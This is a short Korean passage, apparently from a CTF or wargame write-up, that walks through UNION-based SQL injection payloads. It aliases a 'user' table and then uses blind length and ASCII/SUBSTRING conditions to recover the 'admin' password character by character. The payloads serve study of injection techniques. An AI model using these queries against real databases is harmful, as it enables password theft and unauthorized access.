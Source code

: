 |

```sql
union
select 1,2,3 from (
	select 1,2 as name,3 as pw
	union
	select * from user)테이블_이름
```

 `union`을 사용해 테이블을 재구성하여, `user 테이블`의 열에 별칭을 지정

union을 사용해 테이블을 재구성 하였다면 해당 테이블에도 별칭을 붙여줘야 함

|

```sql
union
select 1,2,3 from (
	select 1,2 as name,3 as pw
	union
	select * from user)fxxk
where name like 'admin'
&& length(pw) like 1
```

마지막으로 `admin`의 비밀번호 길이를 알아내기 위한 조건 추가

|

|

### 비밀번호 알아내기

---

```sql
ASCII(SUBSTRING(pw, 비밀번호자릿수, 1)) like 아스키코드
```

```sql
union
select 1,2,3 from (
	select 1,2 as name,3 as pw
	union
	select * from user)fxxk
where name like 'admin'
&& ASCII(SUBSTRING(pw, 1, 1)) like 75
```

각 자리수에 맞는 비밀번호를 찾는 조건 추가

비밀번호 길이를 알아냈다면, 1부터 비밀번호 길이까지 아스키코드를 바꿔가며 비밀번호를 찾을 수 있음

역시 자동화가 필요함
